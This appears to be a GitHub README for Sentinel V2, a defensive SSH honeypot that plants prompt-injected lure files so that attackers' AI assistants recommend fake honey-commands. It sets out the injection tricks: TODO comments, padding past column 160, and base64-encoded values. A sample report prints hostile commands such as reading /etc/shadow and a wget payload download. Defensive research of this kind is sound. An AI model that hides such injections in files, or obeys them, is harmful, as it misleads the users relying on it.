





# Sentinel V2 — AI-Deception Honeypot & Threat Intelligence Platform

> An active-defense honeypot that baits attackers with AI-poisoned deception files, captures their every move, and delivers real-time threat intelligence via Telegram — deployed on AWS EC2 Spot Instances for near-zero cost.

[](https://www.python.org/)
[](https://www.docker.com/)
[](https://openai.com/)
[](https://www.abuseipdb.com/)
[](https://n8n.io/)
[](https://aws.amazon.com/ec2/spot/)
[]()

---

## What is Sentinel V2?

Sentinel V2 is a production-deployed SSH honeypot with an **active deception layer**. It doesn't just wait for attackers — it manipulates them.

Modern attackers feed unfamiliar config files into AI assistants (ChatGPT, Claude, Gemini) to find vulnerabilities. Sentinel V2 exploits this behavior by planting **LLM prompt-injected lure files** inside the honeypot filesystem. When an attacker feeds these files to their AI, the AI reads hidden instructions and recommends running our fake honey-commands as "critical vulnerabilities to test." The moment they run it, we have them.

Every session is monitored in real time. On session close, GPT-4o analyzes all captured commands, highlights notable attack actions with the exact command lines, and sends a structured threat report to Telegram. Attacker IPs are automatically reported to AbuseIPDB.

---

## What's New in V2

| Feature | V1 | V2 |
|---------|----|----|
| SSH Honeypot (Cowrie) | ✅ | ✅ |
| AI threat analysis (GPT-4o via n8n) | ✅ | ✅ |
| **Immediate new-session Telegram alert** | ❌ | ✅ |
| **4-minute periodic session updates** | ❌ | ✅ |
| **AI command-level analysis on session close** | ❌ | ✅ |
| **Deception layer (LLM prompt injection)** | ❌ | ✅ |
| **Honey-commands (AI-bait fake executables)** | ❌ | ✅ |
| **OSINT enrichment (AbuseIPDB + ip-api)** | ❌ | ✅ |
| **Automatic AbuseIPDB reporting** | ❌ | ✅ |
| **Docker hardening (cap-drop, read-only fs)** | ❌ | ✅ |
| **AWS EC2 Spot Instance deployment** | ❌ | ✅ |

---

## Screenshots

### Live Alerts — Real Sessions Captured on First Day

Within minutes of deployment, the first attacker was detected. Two different IPs hit the honeypot — one from Los Angeles (Charter Communications residential), one from Athens (OTE SA, Greece). Both received automated MITRE ATT&CK analysis.




### Real-Time Telegram Threat Report


*GPT-4o analyzes every command the attacker ran, highlights notable actions with the exact command line (e.g. "password dump attempted — `/etc/shadow` accessed"), and maps the attack to MITRE ATT&CK techniques.*

### Live Terminal — Monitor + Attacker Side by Side


*Left: `sentinel-monitor` tracking sessions in real time. Right: what the attacker actually sees inside the honeypot — a convincing fake Ubuntu filesystem.*

### n8n AI Workflow


*Webhook receives session data → GPT-4o analyzes → Telegram report sent. Fully automated, no manual intervention.*

---

## Architecture

```
┌─────────────────────────────────────────────────────────────────────┐
│                      DECEPTION LAYER                                │
│                                                                     │
│  Poisoned lure files placed in honeypot filesystem:                 │
│  ┌──────────────────────────────────────────────────────────────┐   │
│  │ docker-compose-legacy.yml  ← TODO comment mentioning         │   │
│  │                              --dump-keys (LLM bait)          │   │
│  │ .env.backup                ← Base64-encoded honey-command     │   │
│  │                              in FALLBACK_DIAG variable        │   │
│  │ database_migration.log     ← Hidden diagnostic note at        │   │
│  │                              column 160+ (LLM reads it)      │   │
│  └──────────────────────────────────────────────────────────────┘   │
│                                                                     │
│  Honey-commands (fake executables that look like vulnerabilities):  │
│  • /usr/local/bin/legacy-backup-restore --dump-keys                 │
│  • /usr/local/bin/db-diagnostics --bypass-auth                      │
│  → Output: convincing fake AWS keys + DB credentials                │
│  → Trigger: immediate priority Telegram alert                       │
└──────────────────────────┬──────────────────────────────────────────┘
                           │  Attacker enters, browses files,
                           │  pastes them into AI → AI suggests
                           │  honey-command → attacker runs it
                           ▼
┌─────────────────────────────────────────────────────────────────────┐
│                   HARDENED ISOLATION LAYER                          │
│                                                                     │
│  Docker (Cowrie):  cap-drop ALL  |  read-only fs  |  pids_limit 64 │
│                    mem_limit 256m  |  isolated network              │
│  → Attacker is fully contained. Zero lateral movement possible.     │
└──────────────────────────┬──────────────────────────────────────────┘
                           │  Cowrie logs all keystrokes + commands
                           ▼
┌─────────────────────────────────────────────────────────────────────┐
│                   MONITOR (monitor.py)                              │
│                                                                     │
│  Reads Docker logs from outside the container                       │
│                                                                     │
│  NEW SESSION    → OSINT enrichment → immediate Telegram alert       │
│  EVERY 4 MIN   → Progress report (commands tried so far)           │
│  HONEY-COMMAND  → Priority alert (AI-assisted attack confirmed)     │
│  SESSION CLOSE  → AbuseIPDB report + n8n AI analysis trigger       │
└──────────────────────────┬──────────────────────────────────────────┘
                           │
          ┌────────────────┴───────────────┐
          ▼                                ▼
┌──────────────────┐             ┌──────────────────────┐
│  Telegram Bot    │             │  n8n Workflow         │
│  (real-time)     │             │  → GPT-4o analysis    │
│                  │             │  → Final Telegram      │
│  • New session   │             │    threat report       │
│  • 4-min updates │             └──────────────────────┘
│  • Honey alerts  │
└──────────────────┘
```

---

## Deception Strategy: Indirect LLM Prompt Injection

Modern attackers use AI assistants (ChatGPT, Claude, Gemini) to analyze unfamiliar config files and discover vulnerabilities. Sentinel V2 exploits this behavior.

**How it works:**

1. Attacker enters the honeypot and finds realistic-looking config files
2. They copy a file into their AI assistant to "find vulnerabilities"
3. The AI reads hidden instructions embedded in the file and recommends running our honey-command as a "critical vulnerability to test"
4. Attacker runs the command → logged + priority alert fired

**Three camouflage techniques used:**

| Technique | Example | Why it works |
|-----------|---------|--------------|
| TODO comment camouflage | Developer-style `# FIXME:` note mentioning `--dump-keys` | Humans skip TODO comments; LLMs flag them as security issues |
| Off-screen padding | Diagnostic note at column 160+ in log file | Terminal word-wrap hides it; LLM reads the full line |
| Base64 encoding | `FALLBACK_DIAG=L3Vzci9sb2Nhb...` in .env | Looks like a config value; LLM auto-decodes and processes it |

---

## AI Threat Analysis — What GPT-4o Reports

On session close, every command the attacker executed is sent to GPT-4o for analysis. The AI doesn't just summarize — it flags **specific lines** with contextual commentary:

```
⚠️ Notable Actions:

• cat /etc/shadow
  → Attempted to read the shadow password file.
    All hashed credentials on the system exposed.

• wget http://45.33.32.156/payload.sh
  → External payload download attempt.
    Indicates intent to establish persistence or pivot.

• /usr/local/bin/legacy-backup-restore --dump-keys
  → Honey-command triggered. Attacker likely used an AI
    assistant to analyze our deception files.
```

MITRE ATT&CK techniques are mapped automatically (T1078, T1003, T1059, etc.).

---

## Alert Flow

```
[New connection from 1.2.3.4]
        │
        ├──► 🚨 IMMEDIATE ALERT
        │      IP · Geolocation · ISP · ASN · AbuseIPDB score
        │
        ├──► 🔄 4-MINUTE UPDATE  (repeats every 4 min)
        │      Duration · Total events · Recent commands tried
        │
        ├──► 🎣 HONEY-COMMAND ALERT  (if triggered)
        │      "Attacker used AI-suggested honey-command"
        │      Exact command logged
        │
        └──► 📊 FINAL REPORT  (on session close)
               GPT-4o: attack type · notable commands · MITRE ATT&CK
               AbuseIPDB auto-report filed
```

---

## OSINT Sources

| Source | Data | Cost |
|--------|------|------|
| [ip-api.com](http://ip-api.com) | Geolocation, ISP, ASN, VPN/proxy/hosting detection | Free, no key |
| [AbuseIPDB](https://www.abuseipdb.com) | Abuse score, report history + automatic reporting | Free tier: 1,000/day |

---

## Deployment — AWS EC2 Spot Instance

Sentinel V2 is designed to run on **AWS EC2 Spot Instances** — the same hardware as regular EC2 but at **~70% lower cost**. A t3.small Spot Instance runs the full stack for roughly **$3–5/month**.

### Security Group (Inbound Rules)

| Type | Protocol | Port | Source | Purpose |
|------|----------|------|--------|---------|
| Custom TCP | TCP | 22 | 0.0.0.0/0 | Honeypot SSH (exposed to internet) |
| Custom TCP | TCP | 23 | 0.0.0.0/0 | Honeypot Telnet |
| Custom TCP | TCP | 80 | 0.0.0.0/0 | HTTP |
| Custom TCP | TCP | 2222 | My IP only | Admin SSH (your real access) |

### One-command deploy

```bash
# 1. Launch Ubuntu 22.04 EC2 instance, download your .pem key

# 2. Send project files
rsync -avz \
  --exclude='venv' --exclude='__pycache__' \
  --exclude='logs/*' --exclude='*.pem' \
  -e "ssh -i ~/key.pem" \
  ./sentinel-v2/ ubuntu@<EC2_IP>:~/sentinel/

# 3. SSH in and deploy
ssh -i ~/key.pem ubuntu@<EC2_IP>
cd ~/sentinel && sudo bash deploy.sh

# 4. Admin SSH moves to 2222 — reconnect with:
ssh -i ~/key.pem -p 2222 ubuntu@<EC2_IP>
```

The deploy script:
- Moves real SSH to port 2222
- Installs Docker + UFW
- Deploys the hardened Cowrie container on port 22
- Copies deception files into the honeypot filesystem
- Installs `sentinel-monitor` as a systemd service (survives reboots)

### Monitor logs

```bash
ssh -i ~/key.pem -p 2222 ubuntu@<EC2_IP> "sudo docker logs -f sentinel-monitor"
```

---

## Planned — V3 Deception Upgrades

### Getting Real Attacker Information

The next evolution moves beyond passive logging — deploying traps that reveal the attacker's actual identity and location.

| Trap | How It Works | Data Captured |
|------|-------------|---------------|
| **Canary Token files** | PDF/Word/Excel files that silently ping a tracking server when opened (via [canarytokens.org](https://canarytokens.org)) | Real IP, browser/OS, timestamp, geolocation |
| **Honey credentials** | Fake AWS access keys planted in `.env` files — when used, AWS CloudTrail fires an alert with the attacker's source IP | Real IP, AWS region targeted, exact API call made |
| **Tracking pixel in lure docs** | 1×1 pixel image loading from our server embedded in lure PDFs | Real IP, user agent (reveals OS + browser used to open the file) |
| **Fake SSH private keys** | `.pem` files that look valid — when an attacker attempts to use them to log into another server, we see their source IP making the outbound connection | Real source IP, target server they tried to access |

> All techniques above are passive — they operate by enticing the attacker to use our planted data. No unauthorized access to third-party systems.

---

## Project Structure

```
sentinel-v2/
├── docker/
│   ├── docker-compose.yml         # Hardened Cowrie deployment
│   └── cowrie/
│       ├── cowrie.cfg             # Cowrie configuration
│       └── userdb.txt             # Accepted weak credentials
├── src/
│   ├── monitor.py                 # Core monitor (alerts, timers, detection)
│   └── osint.py                   # OSINT enrichment + AbuseIPDB reporting
├── deception/
│   ├── lures/                     # LLM prompt injection lure files
│   │   ├── docker-compose-legacy.yml
│   │   ├── .env.backup
│   │   └── database_migration.log
│   ├── honey-commands/            # Fake command outputs (Cowrie txtcmds)
│   │   ├── legacy-backup-restore
│   │   └── db-diagnostics
│   └── README_DECEPTION.md
├── workflows/
│   └── sentinel_v2_workflow.json  # n8n: Webhook → GPT-4o → Telegram
├── assets/
│   ├── telegram-output.png
│   ├── terminal-output.png
│   └── n8n-workflow.png
├── deploy.sh                      # One-command VPS deployment
├── .env.example
├── requirements.txt
└── README.md
```

---

## Prerequisites

- AWS account (EC2 Spot Instance — Ubuntu 22.04)
- Docker (installed by `deploy.sh`)
- Telegram bot token + chat ID
- n8n Cloud or self-hosted instance
- OpenAI API key (GPT-4o)
- AbuseIPDB API key (free tier)

---

## Disclaimer

For educational and research purposes only. Deployed on infrastructure you own and control. All data capture occurs within your own systems — no unauthorized access to third-party systems. Users must comply with applicable local laws (GDPR, KVKK, etc.). Attacker IPs are reported to AbuseIPDB only when there is genuine evidence of malicious activity.

---

## Contact

GitHub: [sedat4ras](https://github.com/sedat4ras) · Email: sudo@sedataras.com
